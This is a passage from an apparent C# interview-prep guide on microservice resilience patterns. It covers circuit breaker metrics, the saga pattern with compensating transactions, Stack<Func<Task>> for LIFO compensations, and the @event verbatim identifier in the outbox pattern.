        return _failureStatusCodes.Contains(statusCode);
    }
}
```

### Monitoring and Metrics

```csharp
public class MonitoredCircuitBreaker : ICircuitBreaker
{
    private readonly ICircuitBreaker _innerBreaker;
    private readonly IMetrics _metrics;
    
    public async Task<T> ExecuteAsync<T>(Func<Task<T>> operation, string operationKey)
    {
        var stopwatch = Stopwatch.StartNew();
        
        try
        {
            var result = await _innerBreaker.ExecuteAsync(operation, operationKey);
            
            _metrics.RecordSuccess(operationKey, stopwatch.Elapsed);
            return result;
        }
        catch (CircuitBreakerOpenException)
        {
            _metrics.RecordRejection(operationKey);
            throw;
        }
        catch (Exception ex)
        {
            _metrics.RecordFailure(operationKey, stopwatch.Elapsed, ex);
            throw;
        }
    }
}

public interface IMetrics
{
    void RecordSuccess(string operation, TimeSpan duration);
    void RecordFailure(string operation, TimeSpan duration, Exception exception);
    void RecordRejection(string operation);
    void RecordStateChange(string operation, CircuitState from, CircuitState to);
}

// Prometheus metrics example
public class PrometheusMetrics : IMetrics
{
    private readonly Counter _successCounter = Metrics.CreateCounter(
        "circuit_breaker_success_total",
        "Total successful operations",
        new[] { "operation" });
    
    private readonly Counter _failureCounter = Metrics.CreateCounter(
        "circuit_breaker_failure_total",
        "Total failed operations",
        new[] { "operation", "exception_type" });
    
    private readonly Counter _rejectionCounter = Metrics.CreateCounter(
        "circuit_breaker_rejection_total",
        "Total rejected operations due to open circuit",
        new[] { "operation" });
    
    private readonly Histogram _durationHistogram = Metrics.CreateHistogram(
        "circuit_breaker_operation_duration_seconds",
        "Operation duration in seconds",
        new[] { "operation", "status" });
    
    private readonly Gauge _stateGauge = Metrics.CreateGauge(
        "circuit_breaker_state",
        "Current circuit breaker state (0=closed, 1=open, 2=half-open)",
        new[] { "operation" });
}
```

### Why Circuit Breakers Are Important

```yaml
Importance of Circuit Breakers:

1. Prevents Cascading Failures:
   - Stops failures from propagating
   - Protects downstream services
   - Maintains system stability

2. Fast Failure:
   - Immediate rejection when circuit open
   - No waiting for timeouts
   - Better user experience

3. Resource Protection:
   - Prevents thread exhaustion
   - Reduces connection pool depletion
   - Avoids memory leaks

4. Automatic Recovery:
   - Self-healing behavior
   - No manual intervention needed
   - Gradual service restoration

5. System Observability:
   - Clear failure patterns
   - Metrics and monitoring
   - Early warning system

Real-World Benefits:
  - Netflix: Prevents entire platform outages
  - Amazon: Maintains checkout during failures
  - Banking: Ensures core services remain available
  - Healthcare: Critical systems stay operational
```

### Best Practices

```csharp
// Configuration best practices
public class CircuitBreakerOptions
{
    // Failure detection
    public int FailureThreshold { get; set; } = 5;          // Failures before opening
    public TimeSpan FailureWindow { get; set; } = TimeSpan.FromMinutes(1);  // Time window for failures
    
    // Recovery
    public TimeSpan ResetTimeout { get; set; } = TimeSpan.FromSeconds(30);  // Time before half-open
    public int SuccessThreshold { get; set; } = 3;          // Successes to close from half-open
    
    // Operation
    public TimeSpan OperationTimeout { get; set; } = TimeSpan.FromSeconds(10);  // Per-operation timeout
    
    // Advanced
    public double FailureRateThreshold { get; set; } = 0.5; // 50% failure rate
    public int MinimumThroughput { get; set; } = 20;        // Min requests before evaluating
}

// Per-service configuration
public class ServiceSpecificBreakers
{
    public static IServiceCollection AddCircuitBreakers(this IServiceCollection services)
    {
        // Fast, critical service - strict settings
        services.AddSingleton<ICircuitBreaker>(sp => 
            new AdvancedCircuitBreaker(new CircuitBreakerOptions
            {
                FailureThreshold = 3,
                ResetTimeout = TimeSpan.FromSeconds(10),
                OperationTimeout = TimeSpan.FromSeconds(5)
            }));
        
        // Slow, less critical service - relaxed settings
        services.AddSingleton<ICircuitBreaker>("SlowService", sp => 
            new AdvancedCircuitBreaker(new CircuitBreakerOptions
            {
                FailureThreshold = 10,
                ResetTimeout = TimeSpan.FromMinutes(1),
                OperationTimeout = TimeSpan.FromSeconds(30)
            }));
        
        return services;
    }
}
```

**Key Insight**: Circuit breakers protect distributed systems by detecting failures and preventing cascading problems. They "know" the circuit is broken through configurable failure thresholds and time windows, making them essential for building resilient microservices that can handle partial failures gracefully.

## 50. Explain the saga pattern in detail and how it helps

### Saga Pattern Overview

**Quick Answer**: The Saga pattern manages data consistency across microservices in distributed transactions by breaking them into a series of local transactions, where each transaction updates data within a single service and publishes events/messages. If a step fails, compensating transactions undo the changes made by preceding steps.

### Why Sagas Are Needed

```yaml
Traditional ACID Transactions:
  - Work within single database
  - Use 2-phase commit for distributed
  - Lock resources during transaction
  - Not scalable across microservices

Challenges in Microservices:
  - Each service has own database
  - No distributed transactions
  - Network partitions possible
  - Services can fail independently
  - Long-running processes
  
Saga Solution:
  - Series of local transactions
  - Eventually consistent
  - No distributed locks
  - Handles partial failures
  - Supports long-running processes
```

### Types of Sagas

```csharp
// 1. Choreography-based Saga (Event-driven)
public class OrderSagaChoreography
{
    // Each service listens to events and knows what to do
    
    // Order Service
    public class OrderService
    {
        private readonly IEventBus _eventBus;
        
        public async Task CreateOrder(OrderRequest request)
        {
            // Local transaction
            var order = await SaveOrder(request);
            
            // Publish event for next step
            await _eventBus.PublishAsync(new OrderCreatedEvent
            {
                OrderId = order.Id,
                CustomerId = request.CustomerId,
                Items = request.Items,
                TotalAmount = order.TotalAmount
            });
        }
        
        // Listen for compensation events
        public async Task HandlePaymentFailed(PaymentFailedEvent @event)
        {
            // Compensate by canceling order
            await CancelOrder(@event.OrderId);
            await _eventBus.PublishAsync(new OrderCancelledEvent
            {
                OrderId = @event.OrderId,
                Reason = "Payment failed"
            });
        }
    }
    
    // Payment Service
    public class PaymentService : IEventHandler<OrderCreatedEvent>
    {
        public async Task Handle(OrderCreatedEvent @event)
        {
            try
            {
                // Process payment
                var payment = await ProcessPayment(@event.CustomerId, @event.TotalAmount);
                
                // Publish success event
                await _eventBus.PublishAsync(new PaymentCompletedEvent
                {
                    OrderId = @event.OrderId,
                    PaymentId = payment.Id,
                    Amount = payment.Amount
                });
            }
            catch (PaymentException ex)
            {
                // Publish failure event
                await _eventBus.PublishAsync(new PaymentFailedEvent
                {
                    OrderId = @event.OrderId,
                    Reason = ex.Message
                });
            }
        }
    }
}

// 2. Orchestration-based Saga (Central coordinator)
public class OrderSagaOrchestrator
{
    private readonly IOrderService _orderService;
    private readonly IPaymentService _paymentService;
    private readonly IInventoryService _inventoryService;
    private readonly IShippingService _shippingService;
    
    public async Task<SagaResult> ExecuteOrderSaga(OrderRequest request)
    {
        var sagaId = Guid.NewGuid();
        var compensations = new Stack<Func<Task>>();
        
        try
        {
            // Step 1: Create Order
            var order = await _orderService.CreateOrder(request);
            compensations.Push(async () => await _orderService.CancelOrder(order.Id));
            
            // Step 2: Reserve Inventory
            var reservation = await _inventoryService.ReserveItems(order.Items);
            compensations.Push(async () => await _inventoryService.ReleaseReservation(reservation.Id));
            
            // Step 3: Process Payment
            var payment = await _paymentService.ProcessPayment(order.CustomerId, order.TotalAmount);
            compensations.Push(async () => await _paymentService.RefundPayment(payment.Id));
            
            // Step 4: Create Shipment
            var shipment = await _shippingService.CreateShipment(order);
            // No compensation needed for shipment creation
            
            // All steps succeeded
            return new SagaResult { Success = true, OrderId = order.Id };
        }
        catch (Exception ex)
        {
            // Execute compensations in reverse order
            await RunCompensations(compensations);
            
            return new SagaResult 
            { 
                Success = false, 
                Error = ex.Message,
                CompensationExecuted = true
            };
        }
    }
    
    private async Task RunCompensations(Stack<Func<Task>> compensations)
    {
        while (compensations.Count > 0)
        {
            var compensation = compensations.Pop();
            try
            {
                await compensation();
            }
            catch (Exception ex)
            {
                // Log compensation failure
                // May need manual intervention
                _logger.LogError(ex, "Compensation failed");
            }
        }
    }
}
```

### Saga State Management

```csharp
public class SagaStateManager
{
    private readonly ISagaRepository _repository;
    
    public async Task<TSagaState> CreateSaga<TSagaState>(string sagaId) 
        where TSagaState : SagaState, new()
    {
        var state = new TSagaState
        {
            SagaId = sagaId,
            Status = SagaStatus.Started,
            CreatedAt = DateTime.UtcNow,
            CurrentStep = 0
        };
        
        await _repository.SaveAsync(state);
        return state;
    }
    
    public async Task UpdateSagaStep<TSagaState>(
        string sagaId, 
        int step, 
        StepStatus status,
        object stepData = null) where TSagaState : SagaState
    {
        var state = await _repository.GetAsync<TSagaState>(sagaId);
        
        state.Steps[step] = new SagaStep
        {
            StepNumber = step,
            Status = status,
            ExecutedAt = DateTime.UtcNow,
            Data = stepData
        };
        
        state.CurrentStep = step;
        state.LastUpdated = DateTime.UtcNow;
        
        if (status == StepStatus.Failed)
        {
            state.Status = SagaStatus.Compensating;
        }
        
        await _repository.SaveAsync(state);
    }
}

// Saga state persistence
public abstract class SagaState
{
    public string SagaId { get; set; }
    public SagaStatus Status { get; set; }
    public int CurrentStep { get; set; }
    public Dictionary<int, SagaStep> Steps { get; set; } = new();
    public DateTime CreatedAt { get; set; }
    public DateTime LastUpdated { get; set; }
    public string Error { get; set; }
}

public class OrderSagaState : SagaState
{
    public Guid OrderId { get; set; }
    public Guid CustomerId { get; set; }
    public decimal TotalAmount { get; set; }
    public List<OrderItem> Items { get; set; }
    public PaymentInfo PaymentInfo { get; set; }
    public ShippingInfo ShippingInfo { get; set; }
}
```

### Advanced Saga Implementation

```csharp
public interface ISagaStep<TSagaState> where TSagaState : SagaState
{
    int StepNumber { get; }
    string StepName { get; }
    Task<StepResult> ExecuteAsync(TSagaState state);
    Task<StepResult> CompensateAsync(TSagaState state);
}

public class SagaOrchestrator<TSagaState> where TSagaState : SagaState
{
    private readonly List<ISagaStep<TSagaState>> _steps;
    private readonly ISagaStateManager _stateManager;
    private readonly ILogger _logger;
    
    public async Task<SagaExecutionResult> ExecuteAsync(TSagaState initialState)
    {
        var state = await _stateManager.CreateSaga<TSagaState>(initialState.SagaId);
        
        try
        {
            // Forward execution
            foreach (var step in _steps.OrderBy(s => s.StepNumber))
            {
                _logger.LogInformation($"Executing step {step.StepName}");
                
                var result = await ExecuteStepWithRetry(step, state);
                
                if (!result.Success)
                {
                    state.Status = SagaStatus.Compensating;
                    await _stateManager.SaveAsync(state);
                    
                    // Start compensation
                    await CompensateFromStep(step.StepNumber - 1, state);
                    
                    return new SagaExecutionResult
                    {
                        Success = false,
                        SagaId = state.SagaId,
                        FailedAtStep = step.StepName,
                        Error = result.Error
                    };
                }
                
                state.CurrentStep = step.StepNumber;
                await _stateManager.SaveAsync(state);
            }
            
            state.Status = SagaStatus.Completed;
            await _stateManager.SaveAsync(state);
            
            return new SagaExecutionResult
            {
                Success = true,
                SagaId = state.SagaId
            };
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, $"Saga {state.SagaId} failed unexpectedly");
            state.Status = SagaStatus.Failed;
            state.Error = ex.Message;
            await _stateManager.SaveAsync(state);
            throw;
        }
    }
    
    private async Task<StepResult> ExecuteStepWithRetry(
        ISagaStep<TSagaState> step, 
        TSagaState state)
    {
        var retryPolicy = Policy
            .Handle<TransientException>()
            .WaitAndRetryAsync(
                3,
                retryAttempt => TimeSpan.FromSeconds(Math.Pow(2, retryAttempt)),
                onRetry: (exception, timeSpan, retry, context) =>
                {
                    _logger.LogWarning($"Retry {retry} for step {step.StepName} after {timeSpan}");
                });
        
        return await retryPolicy.ExecuteAsync(async () => await step.ExecuteAsync(state));
    }
    
    private async Task CompensateFromStep(int fromStep, TSagaState state)
    {
        var stepsToCompensate = _steps
            .Where(s => s.StepNumber <= fromStep)
            .OrderByDescending(s => s.StepNumber);
        
        foreach (var step in stepsToCompensate)
        {
            try
            {
                _logger.LogInformation($"Compensating step {step.StepName}");
                
                var result = await step.CompensateAsync(state);
                
                if (!result.Success)
                {
                    _logger.LogError($"Failed to compensate step {step.StepName}: {result.Error}");
                    // Continue with other compensations
                }
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, $"Exception during compensation of step {step.StepName}");
                // Continue with other compensations
            }
        }
        
        state.Status = SagaStatus.Compensated;
        await _stateManager.SaveAsync(state);
    }
}

// Example saga step implementation
public class CreateOrderStep : ISagaStep<OrderSagaState>
{
    private readonly IOrderService _orderService;
    
    public int StepNumber => 1;
    public string StepName => "Create Order";
    
    public async Task<StepResult> ExecuteAsync(OrderSagaState state)
    {
        try
        {
            var order = await _orderService.CreateOrder(new CreateOrderRequest
            {
                CustomerId = state.CustomerId,
                Items = state.Items
            });
            
            state.OrderId = order.Id;
            state.TotalAmount = order.TotalAmount;
            
            return StepResult.Success(new { OrderId = order.Id });
        }
        catch (Exception ex)
        {
            return StepResult.Failure(ex.Message);
        }
    }
    
    public async Task<StepResult> CompensateAsync(OrderSagaState state)
    {
        try
        {
            await _orderService.CancelOrder(state.OrderId);
            return StepResult.Success();
        }
        catch (Exception ex)
        {
            return StepResult.Failure($"Failed to cancel order: {ex.Message}");
        }
    }
}
```

### Saga Patterns and Variations

```csharp
// 1. Parallel Saga Execution
public class ParallelSagaOrchestrator
{
    public async Task ExecuteParallelSteps(OrderSagaState state)
    {
        // Execute inventory and payment in parallel
        var inventoryTask = _inventoryService.ReserveItems(state.Items);
        var paymentTask = _paymentService.ProcessPayment(state.CustomerId, state.TotalAmount);
        
        try
        {
            await Task.WhenAll(inventoryTask, paymentTask);
            
            state.InventoryReservation = inventoryTask.Result;
            state.PaymentInfo = paymentTask.Result;
        }
        catch
        {
            // Compensate completed tasks
            var compensations = new List<Task>();
            
            if (inventoryTask.IsCompletedSuccessfully)
            {
                compensations.Add(_inventoryService.ReleaseReservation(inventoryTask.Result.Id));
            }
            
            if (paymentTask.IsCompletedSuccessfully)
            {
                compensations.Add(_paymentService.RefundPayment(paymentTask.Result.Id));
            }
            
            await Task.WhenAll(compensations);
            throw;
        }
    }
}

// 2. Saga with Pivot Transaction
public class PivotTransactionSaga
{
    public async Task ExecuteWithPivot(OrderSagaState state)
    {
        // Steps before pivot can be compensated
        var reservation = await _inventoryService.ReserveItems(state.Items);
        
        try
        {
            // Pivot transaction - no compensation after this
            var payment = await _paymentService.ProcessPayment(state.CustomerId, state.TotalAmount);
            
            // Steps after pivot are retry-only
            await RetryUntilSuccess(async () => 
                await _shippingService.CreateShipment(state.OrderId));
            
            await RetryUntilSuccess(async () => 
                await _notificationService.SendOrderConfirmation(state.CustomerId));
        }
        catch
        {
            // Only compensate pre-pivot transactions
            await _inventoryService.ReleaseReservation(reservation.Id);
            throw;
        }
    }
}

// 3. Saga with Timeout
public class TimeoutSaga
{
    public async Task ExecuteWithTimeout(OrderSagaState state, TimeSpan timeout)
    {
        using var cts = new CancellationTokenSource(timeout);
        
        try
        {
            await ExecuteSagaSteps(state, cts.Token);
        }
        catch (OperationCanceledException)
        {
            _logger.LogWarning($"Saga {state.SagaId} timed out after {timeout}");
            await CompensateAllSteps(state);
            throw new SagaTimeoutException($"Saga timed out after {timeout}");
        }
    }
}
```

### Saga Monitoring and Observability

```csharp
public class SagaMonitoring
{
    private readonly IMetrics _metrics;
    
    public void RecordSagaStarted(string sagaType)
    {
        _metrics.Increment($"saga.{sagaType}.started");
    }
    
    public void RecordSagaCompleted(string sagaType, TimeSpan duration)
    {
        _metrics.Increment($"saga.{sagaType}.completed");
        _metrics.RecordTime($"saga.{sagaType}.duration", duration);
    }
    
    public void RecordSagaFailed(string sagaType, string failedStep)
    {
        _metrics.Increment($"saga.{sagaType}.failed");
        _metrics.Increment($"saga.{sagaType}.failed_at.{failedStep}");
    }
    
    public void RecordCompensation(string sagaType, string step, bool success)
    {
        var status = success ? "success" : "failure";
        _metrics.Increment($"saga.{sagaType}.compensation.{step}.{status}");
    }
}

// Saga visualization
public class SagaVisualizer
{
    public string GenerateMermaidDiagram(SagaDefinition saga)
    {
        var mermaid = new StringBuilder();
        mermaid.AppendLine("graph TD");
        
        for (int i = 0; i < saga.Steps.Count; i++)
        {
            var step = saga.Steps[i];
            var nextStep = i < saga.Steps.Count - 1 ? saga.Steps[i + 1] : null;
            
            mermaid.AppendLine($"    {step.Name}[{step.Name}]");
            
            if (nextStep != null)
            {
                mermaid.AppendLine($"    {step.Name} -->|Success| {nextStep.Name}");
            }
            
            if (i > 0)
            {
                var prevStep = saga.Steps[i - 1];
                mermaid.AppendLine($"    {step.Name} -->|Failure| Compensate_{prevStep.Name}");
            }
        }
        
        return mermaid.ToString();
    }
}
```

### How Sagas Help

```yaml
Benefits of Saga Pattern:

1. Distributed Transaction Management:
   - No distributed locks
   - No two-phase commit
   - Each service manages its data
   - Eventually consistent

2. Failure Handling:
   - Explicit compensation logic
   - Partial failure recovery
   - No hanging transactions
   - Clear failure states

3. Long-Running Processes:
   - No timeout issues
   - Supports human tasks
   - Can span days/weeks
   - Persistent state

4. Service Autonomy:
   - Services remain independent
   - No tight coupling
   - Own database per service
   - Clear boundaries

5. Scalability:
   - No blocking operations
   - Parallel execution possible
   - Resource efficient
   - Cloud-native friendly

6. Observability:
   - Clear execution flow
   - Measurable steps
   - Audit trail
   - Debug-friendly

Real-World Use Cases:
  - E-commerce order processing
  - Travel booking systems
  - Financial transfers
  - Insurance claim processing
  - Supply chain management
```

**Key Insight**: The Saga pattern enables distributed transaction management across microservices by breaking complex operations into a series of local transactions with compensating actions, providing eventual consistency without the scalability limitations of traditional distributed transactions.

## 51. What does compensations = new Stack<Func<Task>> mean?

### Understanding Stack<Func<Task>>

**Quick Answer**: `Stack<Func<Task>>` creates a stack (Last-In-First-Out collection) that stores functions. Each function returns a Task when called, representing an asynchronous operation. In the Saga pattern, this stores compensation actions that can be executed in reverse order if something fails.

### Breaking Down the Syntax

```csharp
// Let's decompose this step by step
compensations = new Stack<Func<Task>>();

// 1. Stack<T> - A LIFO (Last In, First Out) collection
Stack<string> stringStack = new Stack<string>();
stringStack.Push("First");   // Bottom
stringStack.Push("Second");  // Middle  
stringStack.Push("Third");   // Top
var item = stringStack.Pop(); // Returns "Third"

// 2. Func<Task> - A delegate that takes no parameters and returns a Task
Func<Task> simpleFunction = async () => 
{
    await Task.Delay(1000);
    Console.WriteLine("Task completed");
};

// 3. Combining them: Stack<Func<Task>>
var compensations = new Stack<Func<Task>>();

// Adding compensation actions
compensations.Push(async () => await CancelOrder(orderId));
compensations.Push(async () => await RefundPayment(paymentId));
compensations.Push(async () => await RestoreInventory(items));

// Executing compensations in reverse order
while (compensations.Count > 0)
{
    var compensation = compensations.Pop();
    await compensation(); // Execute the function
}
```

### Why Use Stack for Compensations

```csharp
public class SagaExample
{
    public async Task ExecuteWithCompensation()
    {
        var compensations = new Stack<Func<Task>>();
        
        try
        {
            // Step 1: Create order
            var orderId = await CreateOrder();
            compensations.Push(async () => 
            {
                Console.WriteLine($"Compensating: Canceling order {orderId}");
                await CancelOrder(orderId);
            });
            
            // Step 2: Charge payment
            var paymentId = await ChargePayment();
            compensations.Push(async () => 
            {
                Console.WriteLine($"Compensating: Refunding payment {paymentId}");
                await RefundPayment(paymentId);
            });
            
            // Step 3: Ship items (fails)
            throw new ShippingException("Out of stock");
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
            
            // Execute compensations in LIFO order
            // First: Refund payment (last pushed)
            // Then: Cancel order (first pushed)
            while (compensations.Count > 0)
            {
                var compensate = compensations.Pop();
                await compensate();
            }
        }
    }
}

// Output:
// Error: Out of stock
// Compensating: Refunding payment 12345
// Compensating: Canceling order 67890
```

### Alternative Implementations

```csharp
// 1. Using a List (requires reverse iteration)
public class ListBasedCompensation
{
    private readonly List<Func<Task>> _compensations = new();
    
    public void AddCompensation(Func<Task> compensation)
    {
        _compensations.Add(compensation);
    }
    
    public async Task CompensateAll()
    {
        // Must reverse the list to get LIFO behavior
        for (int i = _compensations.Count - 1; i >= 0; i--)
        {
            await _compensations[i]();
        }
    }
}

// 2. Using named compensation actions
public class NamedCompensation
{
    private readonly Stack<CompensationAction> _compensations = new();
    
    public void AddCompensation(string name, Func<Task> action)
    {
        _compensations.Push(new CompensationAction
        {
            Name = name,
            Action = action,
            AddedAt = DateTime.UtcNow
        });
    }
    
    public async Task CompensateAll()
    {
        while (_compensations.Count > 0)
        {
            var compensation = _compensations.Pop();
            Console.WriteLine($"Executing compensation: {compensation.Name}");
            
            try
            {
                await compensation.Action();
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Compensation '{compensation.Name}' failed: {ex.Message}");
                // Continue with other compensations
            }
        }
    }
}

public class CompensationAction
{
    public string Name { get; set; }
    public Func<Task> Action { get; set; }
    public DateTime AddedAt { get; set; }
}

// 3. Using async delegates with parameters
public class ParameterizedCompensation
{
    private readonly Stack<Func<Task>> _compensations = new();
    
    public void AddCompensation<T>(Func<T, Task> action, T parameter)
    {
        // Capture the parameter in a closure
        _compensations.Push(async () => await action(parameter));
    }
    
    // Usage
    public async Task Example()
    {
        var compensations = new ParameterizedCompensation();
        
        var orderId = Guid.NewGuid();
        compensations.AddCompensation(CancelOrderAsync, orderId);
        
        var paymentId = "PMT-12345";
        compensations.AddCompensation(RefundPaymentAsync, paymentId);
        
        var items = new[] { "ITEM-1", "ITEM-2" };
        compensations.AddCompensation(RestoreInventoryAsync, items);
    }
    
    private Task CancelOrderAsync(Guid orderId) => Task.CompletedTask;
    private Task RefundPaymentAsync(string paymentId) => Task.CompletedTask;
    private Task RestoreInventoryAsync(string[] items) => Task.CompletedTask;
}
```

### Advanced Patterns

```csharp
// 1. Compensation with retry logic
public class ResilientCompensation
{
    private readonly Stack<Func<Task>> _compensations = new();
    private readonly ILogger _logger;
    
    public async Task ExecuteCompensationsWithRetry()
    {
        while (_compensations.Count > 0)
        {
            var compensation = _compensations.Pop();
            
            var retryPolicy = Policy
                .Handle<Exception>()
                .WaitAndRetryAsync(
                    3,
                    retryAttempt => TimeSpan.FromSeconds(Math.Pow(2, retryAttempt)),
                    onRetry: (exception, timeSpan, retry, context) =>
                    {
                        _logger.LogWarning($"Retry {retry} after {timeSpan}");
                    });
            
            try
            {
                await retryPolicy.ExecuteAsync(compensation);
            }
            catch (Exception ex)
            {
                _logger.LogError(ex, "Compensation failed after all retries");
                // Continue with other compensations
            }
        }
    }
}

// 2. Compensation with timeout
public class TimeoutCompensation
{
    private readonly Stack<(string name, Func<Task> action)> _compensations = new();
    
    public async Task ExecuteCompensationsWithTimeout(TimeSpan timeout)
    {
        while (_compensations.Count > 0)
        {
            var (name, action) = _compensations.Pop();
            
            using var cts = new CancellationTokenSource(timeout);
            
            try
            {
                await action().WaitAsync(cts.Token);
            }
            catch (OperationCanceledException)
            {
                Console.WriteLine($"Compensation '{name}' timed out after {timeout}");
            }
        }
    }
}

// 3. Parallel compensation execution
public class ParallelCompensation
{
    private readonly List<Func<Task>> _compensations = new();
    
    public async Task ExecuteCompensationsInParallel()
    {
        // Execute all compensations at once
        await Task.WhenAll(_compensations.Select(c => ExecuteSafely(c)));
    }
    
    private async Task ExecuteSafely(Func<Task> compensation)
    {
        try
        {
            await compensation();
        }
        catch (Exception ex)
        {
            // Log but don't fail other compensations
            Console.WriteLine($"Compensation failed: {ex.Message}");
        }
    }
}
```

### Memory and Performance Considerations

```csharp
// Understanding closures and memory
public class ClosureExample
{
    public void DemonstrateClosures()
    {
        var compensations = new Stack<Func<Task>>();
        
        // Each lambda captures variables from its scope
        for (int i = 0; i < 1000; i++)
        {
            var orderId = Guid.NewGuid(); // Captured by closure
            var timestamp = DateTime.UtcNow; // Also captured
            
            compensations.Push(async () =>
            {
                // This function holds references to orderId and timestamp
                // preventing them from being garbage collected
                await CancelOrder(orderId);
                Console.WriteLine($"Cancelled at {timestamp}");
            });
        }
        
        // Memory usage: ~1000 * (Guid + DateTime + delegate overhead)
    }
    
    // More memory-efficient approach
    public class CompensationData
    {
        public Guid OrderId { get; set; }
        public DateTime Timestamp { get; set; }
    }
    
    public void EfficientApproach()
    {
        var compensations = new Stack<CompensationData>();
        
        // Store data separately from functions
        for (int i = 0; i < 1000; i++)
        {
            compensations.Push(new CompensationData
            {
                OrderId = Guid.NewGuid(),
                Timestamp = DateTime.UtcNow
            });
        }
        
        // Single function processes all data
        while (compensations.Count > 0)
        {
            var data = compensations.Pop();
            await ProcessCompensation(data);
        }
    }
}
```

### Real-World Usage Examples

```csharp
// 1. Database transaction rollback
public class DatabaseSaga
{
    private readonly Stack<Func<Task>> _compensations = new();
    private readonly IDbConnection _connection;
    
    public async Task ExecuteMultiTableUpdate()
    {
        IDbTransaction transaction = null;
        
        try
        {
            transaction = _connection.BeginTransaction();
            
            // Insert customer
            var customerId = await InsertCustomer(transaction);
            _compensations.Push(async () => 
                await DeleteCustomer(customerId, transaction));
            
            // Insert order
            var orderId = await InsertOrder(customerId, transaction);
            _compensations.Push(async () => 
                await DeleteOrder(orderId, transaction));
            
            // Update inventory
            await UpdateInventory(transaction);
            _compensations.Push(async () => 
                await RestoreInventory(transaction));
            
            transaction.Commit();
        }
        catch
        {
            transaction?.Rollback();
            
            // Execute compensations for any external effects
            while (_compensations.Count > 0)
            {
                await _compensations.Pop()();
            }
            throw;
        }
    }
}

// 2. Distributed system cleanup
public class DistributedCleanup
{
    private readonly Stack<Func<Task>> _cleanupTasks = new();
    
    public async Task ProvisionResources()
    {
        try
        {
            // Create cloud resources
            var vmId = await CreateVirtualMachine();
            _cleanupTasks.Push(async () => await DeleteVirtualMachine(vmId));
            
            var dbId = await CreateDatabase();
            _cleanupTasks.Push(async () => await DeleteDatabase(dbId));
            
            var storageId = await CreateStorageAccount();
            _cleanupTasks.Push(async () => await DeleteStorageAccount(storageId));
            
            // If we get here, all resources created successfully
        }
        catch
        {
            // Clean up any resources that were created
            await ExecuteCleanup();
            throw;
        }
    }
    
    private async Task ExecuteCleanup()
    {
        var failures = new List<Exception>();
        
        while (_cleanupTasks.Count > 0)
        {
            try
            {
                await _cleanupTasks.Pop()();
            }
            catch (Exception ex)
            {
                failures.Add(ex);
            }
        }
        
        if (failures.Any())
        {
            throw new AggregateException("Cleanup failures", failures);
        }
    }
}
```

**Key Insight**: `Stack<Func<Task>>` is a powerful pattern for storing compensation actions in the Saga pattern because it naturally provides LIFO execution order, ensures type safety for async operations, and leverages C# closures to capture necessary context for each compensation action.

## 52. Why @event is in the outbox Message pattern? Why @?

### Understanding the @ Symbol in C#

**Quick Answer**: The @ symbol in C# is a verbatim identifier that allows you to use reserved keywords as variable names. `@event` is used because `event` is a reserved keyword in C#, and the @ prefix tells the compiler to treat it as a regular identifier rather than a keyword.

### C# Reserved Keywords and @ Symbol

```csharp
// Reserved keywords in C# cannot be used as identifiers
// This won't compile:
// var event = new DomainEvent();  // ERROR: 'event' is a keyword

// Using @ allows keywords as identifiers
var @event = new DomainEvent();  // This works!

// Other examples of reserved keywords
var @class = "User";
var @interface = "IRepository";
var @namespace = "MyApp.Domain";
var @public = true;
var @return = 42;

// The @ is only needed when declaring/using the variable
// In string literals or comments, it's not needed
Console.WriteLine($"Processing event: {@event.Type}");
```

### Why @event in Outbox Pattern

```csharp
public class OutboxPattern
{
    // In domain-driven design, "event" is the natural name
    // for domain events, but it's a C# keyword
    
    public async Task SaveEventToOutbox(DomainEvent @event)
    {
        // The @ allows us to use the semantically correct name
        var outboxMessage = new OutboxMessage
        {
            Id = Guid.NewGuid(),
            EventType = @event.GetType().Name,
            EventData = JsonSerializer.Serialize(@event),
            CreatedAt = DateTime.UtcNow,
            ProcessedAt = null
        };
        
        await _dbContext.OutboxMessages.AddAsync(outboxMessage);
    }
    
    // Without @, we'd need less intuitive names
    public async Task SaveEventToOutboxAlternative(DomainEvent domainEvent)
    {
        // Less clear that this is "the event" we're processing
    }
}

// Common pattern in event sourcing / outbox
public interface IEventStore
{
    Task SaveEvent(DomainEvent @event);
    Task<IEnumerable<DomainEvent>> GetEvents(Guid aggregateId);
}

public class EventStore : IEventStore
{
    public async Task SaveEvent(DomainEvent @event)
    {
        // Using @event makes the code more readable
        // It's immediately clear this is THE event being stored
        
        var eventEntity = new EventEntity
        {
            AggregateId = @event.AggregateId,
            EventType = @event.GetType().Name,
            EventData = SerializeEvent(@event),
            Timestamp = @event.OccurredAt
        };
        
        await _repository.AddAsync(eventEntity);
    }
}
```

### Outbox Pattern Implementation

```csharp
public class OutboxMessage
{
    public Guid Id { get; set; }
    public string EventType { get; set; }
    public string EventData { get; set; }
    public DateTime CreatedAt { get; set; }
    public DateTime? ProcessedAt { get; set; }
    public int RetryCount { get; set; }
    public string Error { get; set; }
}

public class OutboxProcessor
{
    private readonly IDbContext _dbContext;
    private readonly IEventBus _eventBus;
    
    public async Task ProcessOutboxMessages()
    {
        var unprocessedMessages = await _dbContext.OutboxMessages
            .Where(m => m.ProcessedAt == null && m.RetryCount < 3)
            .OrderBy(m => m.CreatedAt)
            .Take(100)
            .ToListAsync();
        
        foreach (var message in unprocessedMessages)
        {
            try
            {
                // Deserialize the event
                var @event = DeserializeEvent(message.EventType, message.EventData);
                
                // Publish to event bus
                await _eventBus.PublishAsync(@event);
                
                // Mark as processed
                message.ProcessedAt = DateTime.UtcNow;
            }
            catch (Exception ex)
            {
                message.RetryCount++;
                message.Error = ex.Message;
            }
        }
        
        await _dbContext.SaveChangesAsync();
    }
    
    private DomainEvent DeserializeEvent(string eventType, string eventData)
    {
        var type = Type.GetType(eventType);
        return (DomainEvent)JsonSerializer.Deserialize(eventData, type);
    }
}
```

### Alternative Naming Conventions

```csharp
// Different teams use different conventions when @ feels awkward

// Option 1: Prefix/Suffix
public class NamingConventions
{
    // Prefix approach
    public void ProcessDomainEvent(DomainEvent domainEvent) { }
    public void HandleIntegrationEvent(IntegrationEvent integrationEvent) { }
    
    // Suffix approach  
    public void ProcessEvent(DomainEvent eventToProcess) { }
    public void PublishEvent(DomainEvent eventData) { }
    
    // Abbreviation approach
    public void SaveEvent(DomainEvent evt) { }
    public void HandleEvent(DomainEvent e) { }
}

// Option 2: Using @ only where absolutely necessary
public class SelectiveAtUsage
{
    private readonly List<DomainEvent> _events = new();
    
    public void AddEvent(DomainEvent @event)
    {
        // Use @ in parameter where it's most natural
